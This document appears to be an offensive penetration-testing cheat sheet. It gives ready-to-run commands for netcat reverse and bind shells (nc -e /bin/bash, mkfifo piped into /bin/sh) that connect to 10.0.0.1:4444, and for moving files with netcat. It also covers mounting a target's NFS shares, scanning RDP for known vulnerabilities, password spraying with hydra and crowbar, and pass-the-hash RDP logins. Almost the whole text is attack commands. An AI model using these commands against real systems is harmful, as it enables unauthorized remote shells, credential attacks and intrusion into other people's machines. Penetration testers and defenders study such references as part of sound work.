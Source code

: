 Set up a listener
```
nc -lvnp 4444
nc -e /bin/bash -lvnp 4444 --ssl
nc -e cmd.exe -lvnp 4444 --ssl
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc -lvnp 4444 /tmp/f
```
To connect to a listening service
```
nc -e /bin/bash 10.0.0.1 4444 --ssl
nc -e cmd.exe 10.0.0.1 4444 --ssl
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 /tmp/f
mkfifo /tmp/f; nc 10.0.0.1 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
Send & receive files with netcat
```
nc -lvnp 4444 <file_name>
nc -nv 10.0.0.1 4444 < <file_name>
```

### NFS
#### Export shares on target's server
Create a directory for the exported files
```
mkdir /tmp/mount
```
List the NFS shares on the target's server
```
/usr/sbin/showmount -e 10.0.0.1
```
Connect NFS share to mount point
```
mount -t nfs 10.0.0.1:share_name /tmp/mount/ -nolock
```

### RDP
Enumerate rdp port & service
```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 10.0.0.1
```
Password spraying
```
crowbar -b rdp -s 10.0.0.1/32 -U users.txt -c 'password123'
hydra -L usernames.txt -p 'password123' rdp://10.0.0.1
```
Check known credentials on RDP
```
rdp_check domain.com/admin:password123@10.0.0.1
```
Connect with known credentials or hash
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.0.0.1 /u:admin /p:'password123'
rdesktop -u admin 10.0.0.1
rdesktop -d <domain-u <username-p password123 10.0.0.1
xfreerdp [/d:domain] /u:<username/p:password123 /v:10.0.0.1
xfreerdp [/d:domain] /u:<username/pth:<hash> /v:10.0.0.1
```
